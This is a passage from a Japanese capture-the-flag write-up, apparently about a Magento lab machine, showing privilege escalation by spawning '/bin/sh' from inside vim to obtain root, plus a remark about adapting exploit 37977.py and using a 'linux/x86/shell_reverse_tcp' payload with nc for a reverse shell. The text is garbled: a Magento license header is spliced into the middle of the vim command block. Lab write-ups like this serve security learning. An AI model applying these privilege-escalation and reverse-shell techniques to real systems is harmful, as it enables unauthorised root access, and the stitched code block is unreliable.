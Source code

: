 vim 内で shell を起動すると

```
:!/bin/sh
/**
 * Magento
 *
 * NOTICE OF LICENSE
 *
 * This source file is subject to the Open Software License (OSL 3.0)
 * that is bundled with this package in the file LICENSE.txt.
 * It is also available through the world-wide-web at this URL:
 * http://opensource.org/licenses/osl-3.0.php
 * If you did not receive a copy of the license and are unable to
 * obtain it through the world-wide-web, please send an email
 * to license@magentocommerce.com so we can send you a copy immediately.
 *
 * DISCLAIMER
 *
 * Do not edit or add to this file if you wish to upgrade Magento to newer
 * versions in the future. If you wish to customize Magento for your
 * needs please refer to http://www.magentocommerce.com for more information.
 *
 * @category   Mage
 * @package    Mage
@
:!/bin/sh
```

root が取れます

```
# whoami
whoami
root

```

## 終わりに
PE は典型的なものでした。37977.py の改変が大変だった…

## shellのとり方別解
別解というほどでもないですが、`linux/x86/shell_reverse_tcp`を payload に使うと nc でも安定した shell が取れます

 
